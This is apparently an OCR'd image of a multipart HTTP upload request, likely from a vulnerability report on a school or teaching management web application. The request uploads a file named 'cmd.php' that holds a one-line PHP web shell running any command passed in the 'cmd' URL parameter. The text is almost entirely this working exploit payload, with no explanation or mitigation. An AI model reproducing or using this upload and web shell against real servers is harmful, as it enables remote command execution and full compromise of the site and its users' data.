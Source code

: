 ```bash
Content-Disposition: form-data; name="teacher_id"



1

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="file_type"



txt

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="status"



1

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="description"



123123

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="_wysihtml5_mode"



1

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="file_name"; filename="cmd.php"

Content-Type: application/octet-stream



<?php system($_GET["cmd"]); ?>

-----------------------------183813756938980137172117669544--

---
```
